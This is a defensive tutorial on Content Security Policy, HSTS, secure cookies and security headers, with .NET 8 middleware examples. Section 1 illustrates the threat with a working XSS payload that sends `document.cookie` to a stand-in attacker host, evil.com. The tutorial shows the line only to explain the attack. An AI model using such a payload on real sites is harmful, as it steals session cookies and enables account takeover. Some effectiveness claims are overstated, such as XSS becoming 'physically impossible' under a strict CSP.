

# CSP and Secure Headers: Hardening the Frontend Perimeter
**0. Architectural Vision: The Declarative Defense**
- **CSP (Content Security Policy).** A powerful security layer that tells the browser exactly which scripts, styles, and images are allowed to load. It is the #1 defense against **XSS (Cross-Site Scripting)**.
- **HSTS (HTTP Strict Transport Security).** Forcing the browser to *only* communicate with your server over HTTPS, even if the user types `http://`.
- **Secure Cookies.** Ensuring that sensitive tokens (like session IDs) are never sent over HTTP and are inaccessible to JavaScript.
- **Security Headers.** A set of "Instructions" in the HTTP response that disable browser features used by attackers (e.g., iframes, MIME-type sniffing).
- **Architect's View.** We move from "Trusting the Browser" to "Giving the Browser Rules". We use **NWebsec** or **Middleware** to inject these headers globally, ensuring that even if a hacker finds an XSS vulnerability, they cannot execute malicious scripts or steal tokens.

**1. Foundational Problem: The "XSS Payload" and the "Data Injection"**
- **Real-World Impact:** A user types `<script>fetch('evil.com?cookie='+document.cookie)</script>` into a "Comment" field.
- **What breaks?** "The Account". When other users view the comment, the script runs in their browser, steals their session cookie, and sends it to the attacker. The attacker can now take over those accounts.
- **Scale Boundary:** In a massive Single Page Application (SPA), there are 1,000s of places where user-generated content is rendered. It is impossible to manually sanitize every single one with 100% certainty.
- **Failure Story:** A major social media site had an XSS vulnerability in their "Profile Header". One hacker used it to create a "Worm" that automatically updated the profile of anyone who viewed it, spreading to 1 million users in 24 hours. Migrating to a **Strict CSP (Content Security Policy)** would have stopped this instantly by telling the browser: "Only execute scripts from `mysite.com`; ignore all inline scripts".

**2. Internal System Mechanics: The Policy Engine**

### The CSP Validation Cycle
1. **The Request:** Browser asks for `index.html`.
2. **The Response:** Server sends the HTML + the `Content-Security-Policy` header.
3. **The Enforcement:** Browser reads the policy: `script-src 'self' https://trusted.com`.
4. **The Action:** If the page tries to load a script from `evil.com`, the browser blocks it and logs a violation.



**3. Production Engineering in .NET 8 (Middleware & Headers)**

### Anti-Pattern: Allowing 'unsafe-inline' in CSP
```csharp
// TERRIBLE: Setting 'script-src 'self' 'unsafe-inline''.
// You are effectively disabling CSP. If an attacker can inject a <script> tag, 
// the browser will run it because you told it 'unsafe-inline' is OK.
```

### Production-Ready Implementation: Secure Headers Middleware
```csharp
// 1. Global Header Injection
public void Configure(IApplicationBuilder app) {
    app.UseHsts(); // Enforce HTTPS
    
    app.Use(async (context, next) => {
        // Prevent Clickjacking
        context.Response.Headers.Append("X-Frame-Options", "DENY");
        // Prevent MIME Sniffing
        context.Response.Headers.Append("X-Content-Type-Options", "nosniff");
        // Referrer Policy
        context.Response.Headers.Append("Referrer-Policy", "strict-origin-when-cross-origin");
        
        // Stict CSP
        context.Response.Headers.Append("Content-Security-Policy", 
            "default-src 'self'; " +
            "script-src 'self' https://cdn.trusted.com; " +
            "style-src 'self' 'unsafe-inline' https://fonts.googleapis.com; " +
            "object-src 'none'; " +
            "frame-ancestors 'none'; " +
            "upgrade-insecure-requests;");
            
        await next();
    });
}

// 2. Cookie Security
builder.Services.ConfigureApplicationCookie(options => {
    options.Cookie.HttpOnly = true; // No JS access
    options.Cookie.SecurePolicy = CookieSecurePolicy.Always; // HTTPS only
    options.Cookie.SameSite = SameSiteMode.Strict; // CSRF defense
});
```

**Architecture Strategy:** 
- Use **Nonces (Number Used Once)** for analytics scripts (like Google Analytics). The server generates a random string on every request and includes it in the CSP header. Only scripts with the matching `nonce="..."` attribute will run.
- Implement **CSP Report-Only Mode** first. This sends violations to an endpoint without blocking anything, allowing you to "Debug" your policy before enforcing it.

**4. System Interaction & Flow (ASCII Architecture)**

                 ┌──────────────────┐
                 │   The Attacker   │ (Trying XSS / Clickjacking)
                 └────────┬─────────┘
                          │ 1. <script>alert(1)</script>
          ┌───────────────▼───────────────┐
          │      THE BROWSER ENGINE      │ (The Enforcement Agent)
          │  ┌─────────┐   ┌─────────┐    │
          │  │ Policy  │ → │ Sandbox │    │
          │  │ Auditor │   │ Layer   │    │
          │  └────┬────┘   └────┬────┘    │
          └───────┼─────────────┼─────────┘
                  │             │ 2. Inline script found? (Block)
          ┌───────▼─────────────▼─────────┐
          │       The UI Component        │ (Safe Content ONLY)
          └───────────────┬───────────────┘
                          │ 3. Execute 'self' code only
                ┌─────────▼─────────┐
                │   XSS Resistance  │
                └───────────────────┘

**5. Strategic Scaling & System Evolution**
- **Trusted Types.** A new browser feature that prevents "DOM-based XSS" by forcing you to use specific "Sanitized" objects instead of raw strings for `innerHTML`.
- **Subresource Integrity (SRI).** Adding a hash to your CDN script tags (e.g., `<script src="..." integrity="sha384-...">`). If the CDN is hacked and the script is changed, the browser will refuse to load it.

**6. Reliability, Observability & Runtime Governance**
- **Key Metrics:**
    - `CSP Violation Count`: Are we under attack or did we break a feature?
    - `Non-HTTPS Request Ratio`: Is HSTS working?
- **Observability:** Use **Sentry** or a dedicated **CSP Reporting Service** (report-uri.com) to collect and visualize browser errors in real-time.

**7. Compromises, Tradeoffs & Alternatives**
- **Maintenance.** Every time you add a new third-party library (like a Video Player or Chat Bot), you must update your CSP policy.
- **Legacy Incompatibility.** Some very old browsers (IE11) don't support CSP, meaning you still need backend sanitization.

**8. Security Posture & Risk Mitigation**
- **Feature Policy (Permissions Policy).** Turning off the Camera, Microphone, and Geolocation for your domain at the browser level if you don't use them.
- **Strict CSRF.** Using `SameSite=Strict` cookies to ensure that your "Session Cookie" is never sent on a cross-site request (e.g., from a malicious link).

**9. Technical Edge Cases & System Failure Modes**
- **The "Broken Analytics".** You turn on CSP but forget to allow `google-analytics.com`. Your marketing data drops to zero, and the CEO is unhappy.
- **The "Infinite HSTS".** You set an HSTS max-age of 1 year, and then you realize you need to roll back to HTTP for some reason. The browser will block your site for 1 year for all previous visitors.

**10. Architectural Assessment & Career Progression**
- **Senior:** "We use secure headers like X-Frame-Options and a basic CSP to prevent XSS."
- **Principal:** "Architecture is the **Constraint of Client-Side Execution**. We leverage **Strict CSPs, Trusted Types, and SRI Hashes** to neutralize the vulnerability of user-generated content. We architecturalize for **Hostile Runtimes**, utilizing **Nonced Policies and Secure Cookie Enclaves** to ensure that our application's integrity is decoupled from the sanitation logic of individual components. For us, the browser is a **Restricted Sandbox** that only operates within our defined security manifest."
- **Interview Strategy:** Explain how `SameSite` cookies prevent CSRF. Describe how a CSP "Report-Only" header helps with deployments.

**11. Real-World Case Study: Global News Portal**
**Scenario:** A site with 10M users and 1,000s of "Comment" sections.
- **The Problem:** Attackers were constantly trying to post "Steal Login" XSS scripts. Standard sanitization failed once a week.
- **The Design:** Implemented a **Strict CSP** with `script-src 'self'`.
- **Result:** XSS attacks became **Physically Impossible** to execute. Even if an attacker found a way to inject a `<script>` tag, the browser simply refused to run it, reporting the attempt to the security dashboard.

**12. Structural Dependencies & Learning Path**
- **Foundations:** OWASP XSS, HTTP Headers, Browser Security Model.
- **Future Steps:** Trusted Types, COOP (Cross-Origin Opener Policy).
- **Integration Points:** NWebsec.AspNetCore.Middleware, NetEscapades.AspNetCore.SecurityHeaders.
